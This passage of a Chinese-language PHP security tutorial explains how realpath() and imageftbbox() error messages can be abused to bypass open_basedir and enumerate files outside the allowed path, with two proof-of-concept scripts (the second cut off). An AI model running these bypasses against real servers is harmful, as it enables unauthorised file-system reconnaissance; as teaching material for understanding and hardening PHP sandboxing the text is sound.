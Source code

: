 #### realpath()绕过

`realpath()`函数和`SplFileInfo::getRealPath()`作用类似。同样是可以得到绝对路径。函数定义如下:

```
realpath ( string $path ) : string
```

当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。 

所以我们可以通过这个特点，来进行目录的猜解。举个例子，我们需要猜解根目录（不在open_basedir中）下的所有文件，只用写一个捕捉php错误的函数`err_handle()`。当猜解某个存在的文件时，会因抛出错误而进入`err_handle()`，当猜解某个不存在的文件时，将不会进入`err_handle()`。

同样，对于这个函数，我们在Windows下仍然能够使用通配符<>来列目录，有P神的脚本如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```

`realpath()`和`SplFileInfo::getRealPath()`的区别在于，`realpath()`只有在启用了open_basedir()限制的情况下才能使用这种思路爆目录，而`SplFileInfo::getRealPath()`可以无视是否开启open_basedir进行列目录(当然，没有开启open_basedir也没必要花这么大的功夫来列目录了)

#### imageftbbox()绕过

GD库imageftbbox/imagefttext列举目录

GD库一般是PHP必备的扩展库之一，当中的`imageftbbox()`函数也可以起到像`realpath()`一样的列目录效果。
其思想也和open_basedir类似。这个函数第三个参数是字体的路径。我发现当这个参数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。 也就是说，我们可以通过抛出错误的具体内容来判断一个文件是否存在。这个方法和realpath有相似性，都会抛出open_basedir的错误。

有POC如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
```